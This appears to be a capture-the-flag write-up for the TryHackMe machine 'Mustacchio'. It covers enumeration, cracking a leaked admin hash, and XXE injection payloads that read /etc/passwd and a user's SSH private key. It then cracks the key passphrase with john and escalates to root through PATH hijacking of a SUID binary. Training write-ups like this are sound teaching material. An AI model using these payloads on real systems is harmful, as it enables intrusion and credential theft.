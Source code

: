 # Mustacchio | THM
###  Difficulty: Easy
---------------------------------------

First, we start to enumerate the target machine with nmap:

```bash
nmap -sC -sV -p- <ip-address>
```
Results:

![image](https://cdn-images-1.medium.com/max/1000/1*YF-bOmF3rjDF9vw9fPC7Ww.png)

So, we got 3 open ports. port 22 of SSH, port 80 and port 8765 for HTTP.
I thought about running Gobuster to find a hidden directories
but as we can see there is login page in port 8765, let’s check it out:

![image](https://cdn-images-1.medium.com/max/1000/1*TmKztsvS77bBfQXcOQO2HQ.png)

mmm.. so at that point I don't know what to do. maybe I’ll try Gobuster?

```bash
gobuster dir -u <IP-address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*aHDbs3iQZ149ljeatO_bKw.png)

let's enter to the custom directory.
oh! I found an interesting file , "users.bak".

![image](https://cdn-images-1.medium.com/max/1000/1*AMQ8-73z48MEKHjV32FE1A.png)

After downloading the file, let's read it.

![image](https://cdn-images-1.medium.com/max/1000/1*1kOopkfnWH_tTbu2FqEfow.png)

we got credentials with username admin and a hash. 
I'm going to insert that hash to rainbow table: https://crackstation.net/

![image](https://cdn-images-1.medium.com/max/1000/1*mKo0PVohWF6LDlkiSse6cw.png)

So, we have username and password. Hence, it means that is the time to enter the admin panel.
After entering to the admin panel we got a comment panel and 
there is an option to include remote code execution a.k.a RCE.

![image](https://cdn-images-1.medium.com/max/1000/1*zHGYPFLXX_fjp0A_0JDlrQ.png)

Before that, let's analyze the web app to understand which vulnerability we can exploit and which code type is needed for the injection.
lets check what the response to click on submit button. after clicking it we got this alert.

![image](https://cdn-images-1.medium.com/max/1000/1*TgoQIAePBDdV-PY3GvBGww.png)

this web app isn't secure at all! it just writing us the vulnerability. lets exploit it.
But, what should I do here? maybe there is some info in the source code of that page?!

![image](https://cdn-images-1.medium.com/max/1000/1*-V9RWYUT1e3tQN2DK_t1kw.png)

So there is an interesting path to a file : "/auth/dontforget.bak" .
when insert the path in the URL, this file downloaded automatically.
lets read it:

![image](https://cdn-images-1.medium.com/max/1000/1*SW8ltX0FgS9V3RdP-Gq-sA.png)

The content of the message is irrelevant but the structure of it going to help us to inject a malicious code. 
in addition, we found a message to user Barry in the source code.
<! - Barry, you can now SSH in using your key! →
but how can I achieve that key? so I'll use the structure of the message and insert it a path to if is there any reflection..

```bash
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 <comment>
 <name>Joe Hamd</name>
 <author>Barry Clad</author>
 <com>&xxe;</com>
 </comment>
```

so after injecting xml entity with a path to passwd ,I got a reflection!

![image](https://cdn-images-1.medium.com/max/1000/1*SHfHXKFQ2b5PBtmRtSWCjQ.png)

It's the time to travel into the SSH directory and pull the key from the reflection. just change the path:

```bash
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
 <comment>
 <name>Joe Hamd</name>
 <author>Barry Clad</author>
 <com>&xxe;</com>
 </comment>
```

and there is the key!

![image](https://cdn-images-1.medium.com/max/1000/1*1syCElthWK9jhlwKZrmQ2g.png)

the username and the key are found. lets attack the SSH service with pass the key attack. 
copy the key and insert it to a file in your kali, the next step is to change the permissions.

```bash
chmod 600 key.txt
ssh barry@<ip-address> -i key.txt
```


oh no, there is a passphrase for the key..

![image](https://cdn-images-1.medium.com/max/1000/1*VRZSLFlPBTBKb0MJZ4v5_A.png)

but don't worry, ssh2john will solve it.

```bash
ssh2john key.txt > newkey1.txt
```

Crack it with john.
```bash
john newkey1.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

 The passphrase: 

 ![image](https://cdn-images-1.medium.com/max/1000/1*I1KWBiHMJL6UQFzpvFiisg.png)

and we are in! user.txt too!

![image](https://cdn-images-1.medium.com/max/1000/1*_m7iGJ4x0YfbbJjRZNquOQ.png)

*Privilege escalation*

Where is root.txt?
I can't find any helpful info in /home/ barry so I moved back to /home to check if is there any other user.
there is! joe. let's check which content can i find.

![image](https://cdn-images-1.medium.com/max/1000/1*41a27O-ewKMO8yE23dtQ-A.png)

I'll try that command to find suid and gid files under root:
```bash
find / -user root -perm /4000 2>/dev/null
```

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*f3Yv4idHoRcP4sRPMJhEYg.png)

as we can see the path of the file is there so we can exploit it.
let's check if we got any permission on that file:

![image](https://cdn-images-1.medium.com/max/1000/1*WwhA0zVEGvaMxSBWnhqe7g.png)

so we got execute permission. it means that we can use strings too.
```bash
strings live_log
```

Results:

![image](https://cdn-images-1.medium.com/max/1200/1*EJ6m8CfCx4e1Ev85lUeReA.png)

that tail command is intersting!
what if are we going to hijack the path with binary file "tail"? lets do it.
first we need permission to write a new file so /tmp is the dir for that.
we are going to inject "/bin/bash" to that file to get root!

![image](https://cdn-images-1.medium.com/max/1200/1*Ja9hyX9Puj4uX2v-xl7UqQ.png)

open the file.
and we got it!

![image](https://cdn-images-1.medium.com/max/1200/1*hS7wjCQUcpGf8GS6JP9ppw.png)

The end!

Happy Hacking!



























 










































